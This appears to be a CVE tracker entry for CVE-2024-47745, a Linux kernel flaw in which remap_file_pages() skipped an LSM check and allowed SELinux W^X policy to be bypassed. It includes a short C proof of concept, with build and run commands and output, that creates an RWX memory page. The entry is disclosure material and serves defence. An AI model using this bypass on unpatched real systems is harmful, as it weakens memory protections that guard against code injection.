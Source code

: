 ### [CVE-2024-47745](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-47745)
![](https://img.shields.io/static/v1?label=Product&message=Linux&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=1da177e4c3f4%3C%200f910dbf2f2a%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=n%2Fa&color=brighgreen)

### Description

In the Linux kernel, the following vulnerability has been resolved:mm: call the security_mmap_file() LSM hook in remap_file_pages()The remap_file_pages syscall handler calls do_mmap() directly, whichdoesn't contain the LSM security check. And if the process has calledpersonality(READ_IMPLIES_EXEC) before and remap_file_pages() is called forRW pages, this will actually result in remapping the pages to RWX,bypassing a W^X policy enforced by SELinux.So we should check prot by security_mmap_file LSM hook in theremap_file_pages syscall handler before do_mmap() is called. Otherwise, itpotentially permits an attacker to bypass a W^X policy enforced bySELinux.The bypass is similar to CVE-2016-10044, which bypass the same thing viaAIO and can be found in [1].The PoC:$ cat > test.cint main(void) {	size_t pagesz = sysconf(_SC_PAGE_SIZE);	int mfd = syscall(SYS_memfd_create, "test", 0);	const char *buf = mmap(NULL, 4 * pagesz, PROT_READ | PROT_WRITE,		MAP_SHARED, mfd, 0);	unsigned int old = syscall(SYS_personality, 0xffffffff);	syscall(SYS_personality, READ_IMPLIES_EXEC | old);	syscall(SYS_remap_file_pages, buf, pagesz, 0, 2, 0);	syscall(SYS_personality, old);	// show the RWX page exists even if W^X policy is enforced	int fd = open("/proc/self/maps", O_RDONLY);	unsigned char buf2[1024];	while (1) {		int ret = read(fd, buf2, 1024);		if (ret <= 0) break;		write(1, buf2, ret);	}	close(fd);}$ gcc test.c -o test$ ./test | grep rwx7f1836c34000-7f1836c35000 rwxs 00002000 00:01 2050 /memfd:test (deleted)[PM: subject line tweaks]

### POC

#### Reference
- https://git.kernel.org/stable/c/0f910dbf2f2a4a7820ba4bac7b280f7108aa05b1
- https://git.kernel.org/stable/c/3393fddbfa947c8e1fdcc4509226905ffffd8b89
- https://git.kernel.org/stable/c/49d3a4ad57c57227c3b0fd6cd4188b2a5ebd6178
- https://git.kernel.org/stable/c/ce14f38d6ee9e88e37ec28427b4b93a7c33c70d3
- https://git.kernel.org/stable/c/ea7e2d5e49c05e5db1922387b09ca74aa40f46e2

#### Github
- https://github.com/fkie-cad/nvd-json-data-feeds
- https://github.com/w4zu/Debian_security

